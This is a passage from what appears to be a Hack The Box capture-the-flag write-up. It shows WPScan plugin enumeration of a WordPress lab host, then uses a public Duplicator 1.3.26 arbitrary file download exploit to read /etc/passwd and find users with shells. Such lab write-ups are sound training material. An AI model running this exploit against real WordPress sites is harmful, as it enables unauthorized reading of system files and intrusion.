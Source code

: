 ```bash
 |
 | Version: 5.4.51 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://pressed.htb/wp-content/plugins/miniorange-2-factor-authentication/readme.txt

[+] php-everywhere
 | Location: http://pressed.htb/wp-content/plugins/php-everywhere/
 | Latest Version: 3.0.0 (up to date)
 | Last Updated: 2022-01-10T23:05:00.000Z
 | Readme: http://pressed.htb/wp-content/plugins/php-everywhere/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pressed.htb/wp-content/plugins/php-everywhere/, status: 200
 |
 | Version: 3.0.0 (50% confidence)
 | Found By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://pressed.htb/wp-content/plugins/php-everywhere/readme.txt

[+] relative-url
 | Location: http://pressed.htb/wp-content/plugins/relative-url/
 | Latest Version: 0.1.8 (up to date)
 | Last Updated: 2021-08-11T18:45:00.000Z
 | Readme: http://pressed.htb/wp-content/plugins/relative-url/readme.txt
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pressed.htb/wp-content/plugins/relative-url/, status: 200
 |
 | Version: 0.1.8 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://pressed.htb/wp-content/plugins/relative-url/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://pressed.htb/wp-content/plugins/relative-url/readme.txt

```

We see the duplicator is version 1.3.26. Searching that up, we find an arbitrary file download exploit:

https://www.exploit-db.com/exploits/50420

Let’s see if this works.

```bash
python3 exploit.py http://pressed.htb /etc/passwd
```

![image.png]({{ site.baseurl }}/assets/pressed/image%207.png)

It worked.

Searching for users with shell:

```bash
cat passwd | grep /bash
root:x:0:0:root:/root:/bin/bash
htb:x:1000:1000:htb:/home/htb:/bin/bash

```
